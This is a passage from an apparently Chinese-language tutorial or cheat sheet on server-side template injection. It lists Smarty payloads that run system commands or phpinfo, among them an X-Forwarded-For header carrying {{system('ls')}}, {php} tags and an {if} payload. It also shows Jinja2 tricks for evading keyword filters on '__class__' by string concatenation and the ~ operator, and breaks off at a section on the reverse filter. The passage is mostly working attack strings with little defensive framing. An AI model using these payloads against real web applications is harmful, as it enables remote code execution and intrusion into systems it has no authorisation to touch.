 payload:

```
X-Forwarded-For: {{system("ls")}}
```

标签

**{php}**

```
{php}phpinfo();{/php}
```

Smarty已经废弃{php}标签，强烈建议不要使用。在Smarty 3.1，{php}仅在SmartyBC中可用。

**{literal} 标签**

**{literal}可以让一个模板区域的字符原样输出。** 这经常用于保护页面上的Javascript或css样式表，避免因为Smarty的定界符而错被解析。

`{if}{/if}`

```
{if phpinfo()}{/if}

```

# 13.绕过关键字过滤

​	

```
以__class__为例
```

## 1.字符编码

#### 编码绕过（就是上文中的编码绕过）

## 2.简单拼接

```
'__c'+'lass__'
```

小括号大括号中括号都适用

## 3.使用Jinjia2中的‘~’进行拼接：

```
{%set a="__cla"%}{%set b="ss__"%}{{a~b}}
```

## 4.使用过滤器reverse反转、replace替换、join拼接

### 1.reverse反转
